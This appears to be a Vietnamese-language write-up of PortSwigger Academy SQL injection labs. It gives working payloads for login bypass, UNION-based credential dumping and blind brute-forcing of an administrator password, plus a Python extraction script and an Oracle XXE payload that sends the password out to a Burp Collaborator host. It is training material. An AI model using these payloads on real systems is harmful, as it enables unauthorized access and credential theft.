

# Web02

# ****SQL injection****

## Basic SQLi

### ****SQL injection vulnerability in WHERE clause allowing retrieval of hidden data****

Theo như mô tả, ta biết được server sẽ thực hiện lệnh SQL dạng

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Với đoạn code như trên, ta có thể thực hiện SQL injection vào `category` hoặc `released` 

Click vào một mục bất kỳ (khác All) dưới `Refine your search`, ta có request sau:



Cho vào `Repeater`, thử đổi `?category=Corporate+gifts` thành `?category='` ta sẽ nhận lại `Internal Server Error` → khả năng cao server truy vấn SQL ở `category`


Dùng payload `category='+or+'1'+--` sẽ khiến đoạn code SQL trên server trở thành

```sql
SELECT * FROM products WHERE category = ''+or+'1'+--' AND released = 1
```

và hiện ra toàn bộ những items chưa được released.


---

### **SQL injection vulnerability allowing login bypass**

Thử login vào website, ta được request sau:


Đoạn code SQL trên server có thể sẽ như sau:

```sql
SELECT * FROM users WHERE username = '<username>' AND password = '<password>'
```

Ta gửi payload `administrator'--` vào username. Khi đó trên server sẽ xử lý

```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = '<password>'
```

Đoạn SQL trên sẽ lấy user có username là `administrator` mà không kiểm tra password


## **SQL injection UNION attacks**

### **SQL injection UNION attack, determining the number of columns returned by the query**

Click vào một mục bất kỳ (khác All) dưới `Refine your search`, ta có request sau:


Cho vào `Repeater`, thử đổi `?category=Corporate+gifts` thành `?category='` ta sẽ nhận lại `Internal Server Error` → khả năng cao server truy vấn SQL ở `category`


Gửi payload `Gifts'+union+SELECT+NULL+--` để xác định số cột của bảng SQL. Tăng dần số cột NULL cho đến khi server không bị lỗi


Nhận thấy khi gửi payload `Gifts'+union+SELECT+NULL,NULL,NULL+--`, server trả về kết quả như bình thường → số cột là 3.


Ngoài ra, ta dễ dàng nhận thấy khả năng cao bảng SQL có ít nhất 2 cột (tên, giá tiền) → thử từ 2 NULL trở đi để rút ngắn thời gian.

---

### **SQL injection UNION attack, finding a column containing text**

Tương tự các bài trước, ta sẽ tấn công SQLi vào `/filter?category=`


Dùng `order by n`  (sắp xếp theo cột thứ `n`)để tìm số cột.


Khi gửi payload `category=Gifts'+order+by+4+--`, ta bị Internal Server Error → số cột là 3


Do đã xác định được có ba cột nên ta sẽ dùng ba cột NULL. Thay `'0e8ilw'` (string của lab đưa) vào từng vị trí NULL, ta được vị trí ở giữa không trả về Internal Server Error → cột thứ 2 có dạng string.


---

### **SQL injection UNION attack, retrieving data from other tables**

Tương tự các bài trước, ta sẽ tấn công SQLi vào `/filter?category=`


Xác định được bảng có 2 cột với payload `Pets'+order+by+2+--`


Xác định được  2 cột đều là string, cột thứ nhất là tiêu đề còn cột thứ 2 là đoạn văn với payload `Pets'+order+by+2+--`


Mô tả cung cấp cho ta table `users` cùng 2 cột `username` và `password`. Gửi payload `Pets'+union+SELECT+username,password+from+users+--`.


Kéo xuống ta thấy được thông tin đăng nhập của `administrator`

---

### SQL injection UNION attack, retrieving multiple values in a single column

Tương tự các bài trước, ta sẽ tấn công SQLi vào `/filter?category=`


Gửi payload `Pets'+union+select+NULL,'a'+--`, xác định được bảng có 2 cột và chỉ có cột thứ 2 là string được render. Do đó để có thể lấy được username và password trong cùng 1 request, ta sẽ cần nối 2 string lại với nhau.


Thử ghép 2 cột username và password bằng `||` , gửi payload `Pets'+union+select+NULL,username||password+from+users+--`


Như vậy ta có thể ghép 2 string bằng `||`. Sửa lại payload để dễ nhìn username và password hơn: `Pets'+union+select+NULL,username||':'||password+from+users+--`


Ta thấy ngay thông tin đăng nhập của `administrator`

---

### 

## **Examining the database in SQL injection attacks**

### **SQL injection attack, querying the database type and version on Oracle**

Tương tự các bài trước, ta sẽ tấn công SQLi vào `/filter?category=`


Phần mô tả của lab có gợi ý database là `Oracle`, do đó ta cần phải có phần `FROM` trong câu lệnh `SELECT`. Ta có thể sử dụng bảng `dual` có mặc định có sẵn của database.

Dùng payload `Pets'+union+SELECT+NULL,'a'+from+dual+--`, ta kiểm tra được bảng có 2 cột và cột thứ 2 có kiểu dữ liệu string được trả về trong response


Tìm trong [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), ta được lệnh SQL lấy thông tin version của database Oracle


Dùng payload `Pets'+union+SELECT+NULL,banner+from+v$version+--` lấy thông tin như yêu cầu của đề bài.


---

### SQL injection attack, querying the database type and version on MySQL and Microsoft

Tương tự các bài trước, ta sẽ tấn công SQLi vào `/filter?category=`


Phần mô tả của lab có gợi ý database là `MySQL` hoặc `Microsoft`. Do đó ta sẽ cần comment bằng `#` thay vì `--`

Dùng payload `'+union+select+NULL,'a'+%23` (`%23` là url encode của `#`), ta kiểm tra được bảng có 2 cột và cột thứ 2 có kiểu dữ liệu string được trả về trong response


Tìm trong [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), ta được lệnh SQL lấy thông tin version của database MySQL và Microsoft


Dùng payload `'+union+select+NULL,@@VERSION+%23` lấy thông tin như yêu cầu của đề bài.


---

### SQL injection attack, listing the database contents on non-Oracle databases

Tương tự các bài trước, ta sẽ tấn công SQLi vào `/filter?category=`

Dùng payload `'+union+select+NULL,'a'+--`, ta kiểm tra được bảng có 2 cột và cột thứ 2 có kiểu dữ liệu string được trả về trong response


Dùng payload `'+union+select+NULL,table_name+from+information_schema.tables+--` để lấy tên các bảng, ta tìm được bảng `users_dqghnn` khả nghi


Dùng payload  `'+union+select+NULL,column_name+from+information_schema.columns+where+table_name='users_dqghnn'+--` để tìm tên các cột


Có tên bảng và cột, ta truy vấn SQL để lấy thông tin đăng nhập như bình thường

`'+union+select+password_umtufo,username_zytctf+from+users_dqghnn+--`


Tìm thấy username và password của admin

---

### **SQL injection attack, listing the database contents on Oracle**

Tương tự các bài trước, ta sẽ tấn công SQLi vào `/filter?category=`

Lưu ý database của lab này là Oracle

Dùng payload `'+union+SELECT+'a','a'+from+dual+--`, ta kiểm tra được bảng có 2 cột có kiểu dữ liệu string được trả về trong response


Gửi payload `'+union+select+NULL,table_name+from+all_tables+--` và `'+union+select+NULL,column_name+from+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_BSGYUL'+--` để lần lượt lấy tên bảng và tên cột.


Có tên bảng và cột, ta truy vấn SQL để lấy thông tin đăng nhập như bình thường

`'+union+select+USERNAME_IOTIJI,PASSWORD_VLVLVE+FROM+USERS_BSGYUL+--`


## **Blind SQL injection**

### **Blind SQL injection with conditional responses**

Dựa vào mô tả của lab, ta biết được rằng server sẽ truy vấn SQL value của tracking cookie. Website sẽ hiện dòng `Welcome back` nếu lệnh truy vấn trả về bất cứ dòng nào.

Test SQLi bằng payload `' or '1` vào cookie `TrackingId`, ta thấy website hiện `Welcome back` → có lỗi SQLi


Dựa vào kết quả trả về (có hoặc không có `Welcome back`), ta có thể thực hiện blind SQLi bằng cách brute-force từng ký tự trong password của `administrator`, nếu ký tự đó đúng thì server sẽ trả về `Welcome back`.

Test lệnh SQL `substring` bằng payload `' or (select substring(username,1,1) from users where username = 'administrator') = 'a' --`. Payload này sẽ kiểm tra xem ký tự đầu tiên trong username của user `administrator` có phải là `a` không (hiển nhiên là có).


Thấy có dòng `Welcome back` → ta có thể dùng `substring` để brute-force từng ký tự của password với cách tương tự.


Vị trí `§pos§` sẽ nhận giá trị từ 1-30 (tương đương vị trí của ký tự trong password). 


Vị trí `§char§` sẽ nhận giá trị từ a-zA-Z0-9. 


Grep dòng `Welcome back`


Set nhiều nhất 999 request cùng lúc để brute-force nhanh hơn.


Bắt đầu brute-foce, đợi 1 lúc thấy có 20 ký tự hợp lệ. Sắp xếp chúng theo thứ tự của payload 1, như vậy password sẽ có ký tự 1 là `7`, ký tứ 2 là `w`, ký tự 3 là `z`,...


Đăng nhập bằng password lấy được.

Note: ngoài ra, nếu password vẫn bị sai, ta nên thử toàn bộ `printable ASCII character` (bao gồm thêm các ký tự đặc biệt) và cho số ký tự của password dài hơn.

---

### **Blind SQL injection with conditional errors**

Dựa vào mô tả của lab, ta biết được rằng server sẽ truy vấn SQL value của tracking cookie. Tuy  nhiên kết quả truy vấn SQL sẽ không được trả về.

Thử gửi payload có thể khiến server bị lỗi


Server đã trả về code 500. Dựa vào code 200 hoặc code 500, ta có thể thực hiện brute-force password của `administration` bằng SQLi.

Gửi payload `' or (select substr(username,1,1) from users where username = 'administrator') = 'a' --` để kiểm tra → không bị lỗi → database dùng `substr` để lấy xâu con → `Oracle`


Dùng thử payload Error based SQLi của Oracle trên [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

`' union SELECT CASE WHEN ('1'='2') THEN NULL ELSE to_char(1/0) END FROM dual --`


Code 200 nếu điều kiện trong `CASE` đúng, và 500 nếu sai.

Thử kết hợp `case` với `substr`

`' union SELECT CASE WHEN ((select substr(username,1,1) from users where username = 'administrator') = 'a') THEN NULL ELSE to_char(1/0) END FROM dual --`


`' union SELECT CASE WHEN ((select substr(username,1,1) from users where username = 'administrator') = 'b') THEN NULL ELSE to_char(1/0) END FROM dual --`


Như vậy có thể thấy ta hoàn toàn đủ điều kiện để thực hiện brute-force.

Gửi vào `Intruder` 


Vị trí `§pos§` sẽ nhận giá trị từ 1-30 (tương đương vị trí của ký tự trong password). 


Vị trí `§char§` sẽ nhận giá trị từ a-zA-Z0-9. 


Bắt đầu brute-foce, đợi 1 lúc thấy có 20 ký tự hợp lệ. Sắp xếp chúng theo thứ tự của payload 1, như vậy password sẽ có ký tự 1 là `w`, ký tứ 2 là `k`, ký tự 3 là `n`,...


Đăng nhập vào bằng password ta vừa lấy được


---

### Blind SQL injection with time delays

Dựa vào mô tả của lab, ta biết được rằng server sẽ truy vấn SQL value của tracking cookie. Tuy  nhiên kết quả truy vấn SQL sẽ không được trả về và server xử lí lỗi tốt → thực hiện Time based SQLi.

Tìm payload cho Time based SQLi, ta có payload cho database PostgresSQL là hoạt động

Gửi cookie `trackingid` với value `'%3b SELECT pg_sleep(10) --` (`%3b` là url encode của `;`)


Server mất 10 giây mới phản hồi → thành công

---

### **Blind SQL injection with time delays and information retrieval**

Dựa vào mô tả của lab, ta biết được rằng server sẽ truy vấn SQL value của tracking cookie. Tuy  nhiên kết quả truy vấn SQL sẽ không được trả về và server xử lí lỗi tốt → thực hiện Time based SQLi.

Tìm payload cho Time based SQLi, ta có payload cho database PostgresSQL là hoạt động

Gửi cookie `trackingid` với value `'%3b SELECT pg_sleep(10) --` (`%3b` là url encode của `;`)


Thử kết hợp với `substring`


Payload đã hoạt động. Tuy nhiên sau khi brute-force thử bằng `Intruder` thì mình nhận ra nếu gửi nhiều request cùng lúc sẽ dẫn đến thời gian các response đều lâu gần như nhau. Do đó ta có thể dùng `Intruder` và cài đặt `Maximum concurrent requests` là `1` với payload

`'%3b SELECT CASE WHEN ((select substring(password,§pos§,1) from users where username = 'administrator') = '§char§') THEN pg_sleep(10) ELSE pg_sleep(0) END --`


hoặc code python để giải (module `bruteforce`  được đính kèm cùng trong folder write up)

```python
import re

import requests
import bruteforce as bf

URL = 'https://ace01f5c1e98f62ec0e368c5001e0079.web-security-academy.net/login'

status_code = requests.get(url=URL).status_code
if status_code != 200:
    print(f'Status code: {status_code}')
    exit(status_code)

bf_char = bf.ALLOWED_CHARACTERS[0]
pos = 1
username = 'administrator'
password = ''
while bf_char != bf.ALLOWED_CHARACTERS[-1]:
    cookie = {
        'TrackingId': f"'%3b SELECT CASE WHEN ((select substring(password,{pos},1) from users where username = '{username}') = '{bf_char}') THEN pg_sleep(15) ELSE pg_sleep(0) END -- "
    }
    res = requests.get(url=URL, cookies=cookie)

    print(f'{bf_char} - ', end='')

    if res.elapsed.total_seconds() > 14:
        print(f'password: {bf_char}')
        password += bf_char
        pos += 1
        bf_char = bf.ALLOWED_CHARACTERS[0]
    else:
        bf_char = bf.func_next_char(bf_char)

print(password)
with open('credential.txt', 'w') as file:
    file.write(f'{username}:{password}')

s = requests.session()
csrf = re.search(r'<input required type="hidden" name="csrf" value="(.*)">', s.get(url=URL).text).group(1)

data = {
    'csrf': csrf,
    'username': username,
    'password': password
}

res = s.post(url=URL, data=data, allow_redirects=True)

if f'Your username is: {username}' in res.text:
    print(f"Logged in as {username}")
    with open('admin.html', 'w') as file:
        file.write(res.text)
else:
    print('Login error')
```

Lợi thế của việc dùng python trong bài này là sau khi tìm được ký tự đúng ở vị trí nào đó, ta có thể dừng và chuyển sang vị trí tiếp theo luôn.

---

### **Blind SQL injection with out-of-band interaction**

Dựa vào mô tả của lab, ta biết được rằng server sẽ truy vấn SQL value của tracking cookie. Tuy  nhiên việc truy vấn này không liên quan gì đến response của server. Ta có thể thử thực hiện DNS look-up thông qua XXE

`' union SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "[http://o3sw69zoeeal12mv3lbbqthm0d65uu.burpcollaborator.net/](http://o3sw69zoeeal12mv3lbbqthm0d65uu.burpcollaborator.net/)"> %25remote%3b]>'),'/l') FROM dual --`


Thấy ở trong Burp Collaborator nhận được request → thành công

---

### Blind SQL injection with out-of-band data exfiltration

Test OOB bằng payload `' union SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "[http://laz0rv8t5zdlkkcsloed5ezq3h97xw.burpcollaborator.net/](http://laz0rv8t5zdlkkcsloed5ezq3h97xw.burpcollaborator.net/)"> %25remote%3b]>'),'/l') FROM dual --`


Thấy ở trong Burp Collaborator nhận được request → ta có thể thực hiện trích xuất dữ liệu thông qua OOB. Gửi payload `' union SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %25 remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.laz0rv8t5zdlkkcsloed5ezq3h97xw.burpcollaborator.net/"> %25remote%3b]>'),'/l') FROM dual --` để trích xuất password của user `administrator`.


Đăng nhập thành công vào `administrator` bằng password vừa lấy được.

